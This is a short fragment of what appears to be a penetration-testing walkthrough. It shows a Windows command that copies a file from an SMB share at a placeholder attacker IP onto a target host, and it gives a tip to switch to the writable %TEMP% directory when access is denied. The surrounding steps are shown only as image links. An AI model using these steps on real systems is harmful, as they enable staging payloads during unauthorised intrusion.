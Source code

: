 ![](./IMG/43.png)

- Copy file to local 
```
copy \\<attacker ip address\<dir name>\<target file>
```

![](./IMG/44.png)

- If the copy file result show 'Access Denied', then change dir to %TEMP%, this directory has full permission to write file.

![](./IMG/45.png)
